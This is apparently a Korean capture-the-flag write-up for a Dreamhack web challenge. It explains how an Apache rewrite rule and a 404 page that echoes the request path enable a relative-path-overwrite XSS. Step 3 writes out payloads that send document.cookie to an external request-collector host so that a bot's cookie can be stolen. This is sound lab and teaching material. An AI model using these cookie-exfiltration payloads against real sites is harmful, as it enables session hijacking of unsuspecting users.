




# Challenge: dreamhack - Relative-Path-Overwrite-Advanced

## 문제 설명 & 접근
https://dreamhack.io/wargame/challenges/440/


## 추가학습
### Apache 설정과 파일 구조
* 서버는 기본적으로 /index.php로 요청을 전달한다.
* src/index.php가 실제로 동작하는 PHP 파일로, Apachesms "/"로 들어오는 요청을 "src/index.php"로 연결한다.


## 문제 풀이
Step 1
* 000-default.conf, 즉 Apache 웹서버의 설정파일부터 보자. Apache의 URL 재작성 기능을 활성화해 요청 URL이 /파일명.js 또는 /파일명.css로 끝나면 내부적으로 "/static/파일명"으로 경로를 바꾸는 것을 알 수 있다. 또한 404 Not Found 에러가 발생하면 /404.php 페이지를 보여준다. 
    ```
    RewriteEngine on
    RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]

    ErrorDocument 404 /404.php
* /404.php 파일을 보자. 사용자의 REQUEST_URI를 그대로 출력하는 것을 알 수 있다.
    ```php
    <?php 
    header("HTTP/1.1 200 OK");
    echo $_SERVER["REQUEST_URI"] . " not found."; 
    ?>
    ```
* vuln.php 파일은 이전 Relative-Path-Overwrite의 vuln.php에서 filter가 정의되지 않았을 때도 param을 "nope !!"으로 바꾼다. 따라서 이전의 방식은 통하지 않는다.
    ```php
    <script src="filter.js"></script>
    <pre id=param></pre>
    <script>
        var param_elem = document.getElementById("param");
        var url = new URL(window.location.href);
        var param = url.searchParams.get("param");
        if (typeof filter === 'undefined') {
            param = "nope !!";
        }
        else {
            for (var i = 0; i < filter.length; i++) {
                if (param.toLowerCase().includes(filter[i])) {
                    param = "nope !!";
                    break;
                }
            }
        }

        param_elem.innerHTML = param;
    </script>
    ```
*  http://host8.dreamhack.games:8535/?page=vuln&param=dreamhack 로 접근해보자. src/vuln.php가 실행되고 내부에서 param 값을 받아 HTML로 응답할 것이다. 브라우저는 ```<script src="filter.js"></script>```의 코드를 보고 현재 경로를 기준으로filter.js를 요청한다. Apache의 RewriteRule에 따라 /filter.js 요청을 내부적으로 /static/filter로 바꾼다. 문제는 확장자까지 제거한다는 것이다. 따라서 404 에러가 발생하고 /404.php가 실행되어 개발자도구 sources 탭에서 filter.js의 코드 부부분에 "/filter.js not found."가 보인다. 의도된 바인지 모르겠지만 사실상 무조건 filter.js가 로드되지 않아 filter 변수가 undefined 상태고 출력값이 "nope !!"으로 고정인 것을 알 수 있다.

Step 2 - 구조 파악
* http://host8.dreamhack.games:8535/vuln.php/anything/ 으로의 접근을 요청해보자. 개발자 도구로 확인해보면 다음과 같다. 

* 즉, 서버에서 filter.js를 탐색할 때 현 url에서 찾으므로, anything 부분을 조작한다면 XSS 공격이 가능하다. 그렇다면 anything 부분을 수정해보자. http://host8.dreamhack.games:8535/vuln.php/;alert(1);// 을 입력해보면 어떨까? 
* 위 요청을 보내면 alert가 된다. 왜? filter.js에 대한 상대 주소가 /vuln.php/;alert(1);//filter.js 가 되기 때문에 vuln.php에서 사실상 ```<script src="/vuln.php/;alert(1);//filter.js">```가 된다. 당연히 해당 주소를 찾지 못해 404 에러가 발생하고 /404.php가 실행되면서 echo $_SERVER["REQUEST_URI"] . " not found." 코드로 인해 "/vuln.php/;alert(1);//filter.js not found."가 반환된다. 그리고 그 중간에 있는 alert(1);이 실행되는 것이다.
    * 참고로 http://host8.dreamhack.games:8535/vuln.php/;alert(1);로 요청을 보낸다면 "/vuln.php/filter.js not found."
    * http://host8.dreamhack.games:8535/vuln.php/;alert(1);/로 요청을 보낸다면 /vuln.php/;alert(1);/filter.js not found.

* http://host8.dreamhack.games:8535 로 요청을 해도 http://host8.dreamhack.games:8535/index.php 로 요청을 해도, http://host8.dreamhack.games:8535/index.php/anything으로 요청을 해도, 심지어 http://host8.dreamhack.games:8535/index.php/anything/1 로 요청을 해도 전부 index.php와 같은 화면이다. 또 다른 urlrewrite 규칙이 있는 것으로 보인다. 
* http://host8.dreamhack.games:8535/index.php/anything/?page=vuln&param=dreamhack 으로 입력하면 중간에 anything이 있더라도 http://host8.dreamhack.games:8535/index.php/?page=vuln&param=dreamhack 와 같이 동작한다. 그 이유가 위의 URL rewrite 규칙과 php에서 쿼리스트링은 별도로 유지한다는 점 때문이다. 페이지를 불러오는 것에서는 anything이 생략된 것처럼 보이나 page=vuln에 의해 vuln.php의 ```<script src='filter.js'>```가 실행될 때는 /index.php/anything/filter.js 를 호출하게 된다. 당연히 존재하지 않으니 404 에러가 발생하고 /404.php가 실행되면서 echo $_SERVER["REQUEST_URI"] . " not found." 코드로 인해 "/index.php/anything/filter.js not found."가 반환된다. 


Step 3
* 이제 쿠키를 얻기 위한 페이로드를 작성해보자.
* vuln.php/;location.href='https://qykknan.request.dreamhack.games/'+document.cookie;//
* index.php/;location='https://qykknan.request.dreamhack.games/'+document.cookie;//?page=vuln&param=dreamhack

* document.cookie를 연결하는 연산자로, "+"는 되고 "%2b"로 url 인코딩된 값을 넣는 것은 안되는 것을 알 수 있다. 왜? 이 문제에서의 위 페이로드는 URL 경로에 자바스크립트 코드를 삽입해서 404.php에서 echo $_SERVER["REQUEST_URI]로 자바스크립트가 그대로 브라우저에 출력되게 만든다. 브라우저가 이 코드를 자바스크립트로 해석할 때 +는 문자열 연결 연산자로 동작한다. 만약 페이로드에 %2b를 사용하면 %2b는 문자 그대로 출력된다. 


## 결과
위 페이로드 중 아무거나 /report의 폼에 입력하면 외부 서버 주소로 플래그를 얻을 수 있다.